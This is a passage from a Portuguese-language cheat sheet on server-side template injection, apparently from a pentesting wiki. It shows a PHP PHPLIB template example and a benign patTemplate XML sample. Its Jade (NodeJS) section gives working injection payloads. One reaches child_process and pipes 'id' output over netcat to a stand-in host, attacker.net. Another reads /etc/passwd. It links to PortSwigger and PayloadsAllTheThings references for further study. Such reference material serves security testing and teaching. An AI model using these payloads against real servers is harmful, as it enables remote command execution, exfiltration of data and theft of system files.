 ```php
<?php
//we want to display this author list
$authors = array(
'Christian Weiske'  => 'cweiske@php.net',
'Bjoern Schotte'     => 'schotte@mayflower.de'
);

require_once 'HTML/Template/PHPLIB.php';
//create template object
$t =& new HTML_Template_PHPLIB(dirname(__FILE__), 'keep');
//load file
$t->setFile('authors', 'authors.tpl');
//set block
$t->setBlock('authors', 'authorline', 'authorline_ref');

//set some variables
$t->setVar('NUM_AUTHORS', count($authors));
$t->setVar('PAGE_TITLE', 'Code authors as of ' . date('Y-m-d'));

//display the authors
foreach ($authors as $name => $email) {
$t->setVar('AUTHOR_NAME', $name);
$t->setVar('AUTHOR_EMAIL', $email);
$t->parse('authorline_ref', 'authorline', true);
}

//finish and echo
echo $t->finish($t->parse('OUT', 'authors'));
?>
```
### Jade (NodeJS)
```javascript
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
**Mais informações**

* Na seção Jade de [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen)

### patTemplate (PHP)

> [patTemplate](https://github.com/wernerwa/pat-template) é um motor de templating PHP que não compila, utilizando tags XML para dividir um documento em diferentes partes.
```xml
<patTemplate:tmpl name="page">
This is the main page.
<patTemplate:tmpl name="foo">
It contains another template.
</patTemplate:tmpl>
<patTemplate:tmpl name="hello">
Hello {NAME}.<br/>
</patTemplate:tmpl>
</patTemplate:tmpl>
```